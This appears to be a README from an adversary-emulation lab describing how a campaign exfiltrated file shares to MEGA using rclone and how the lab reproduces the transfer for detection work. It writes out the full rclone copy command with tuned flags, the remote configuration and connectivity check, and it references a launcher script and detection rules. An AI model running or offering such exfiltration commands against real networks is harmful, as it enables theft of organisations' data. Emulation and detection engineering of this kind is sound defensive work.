


# rclone exfiltration to MEGA

Data leaves the network with `rclone`, configured with a MEGA remote. The command is tuned for a long
transfer: two-year age limit, existing files skipped, no interactive confirmation, seven parallel
transfers, seven streams per transfer, and a ten megabyte per second bandwidth ceiling.

```
rclone.exe copy --max-age 2y "\\<server>\Shares" Mega:DATA -q --ignore-existing --auto-confirm --multi-thread-streams 7 --transfers 7 --bwlimit 10M
```

The transfer runs twice, several days apart, for roughly three hours inside a fixed evening window.
The second run reuses `--ignore-existing`, so only new or changed files are uploaded.

## How the lab reproduces it

The backup server is the source. The lab consolidates the backup role and the data role into one host,
which the campaign separates; the transfer command, the remote name, and the destination service are
otherwise the same. The remote is a real MEGA account, and the corpus is synthetic documents built to
the size of the run.

```
rclone config create Mega mega user <account> pass <app-password>
rclone lsd Mega:            # connectivity check before the run
```

`tools/rclone-exfil.ps1` launches the transfer with the exact flag set, records start and end time,
and captures the process and connection events. `tools/rclone.conf.example` shows the remote layout
without credentials; the real configuration is read from the environment and is never committed.

The bandwidth ceiling makes the run take the same shape as the original without requiring the
original data volume: a smaller corpus at the same ceiling produces a shorter but identically shaped
transfer.

## Artifacts

| File | Purpose |
|---|---|
| `tools/rclone-exfil.ps1` | Runs one transfer round and records evidence |
| `tools/rclone.conf.example` | Remote layout, no secrets |

## Telemetry and detection

The rule for this behaviour lives in [`detections/eql/`](../../detections/eql/) and is listed in the index at [`detections/README.md`](../../detections/README.md). The field assumptions the rule depends on are recorded there.


## Evidence




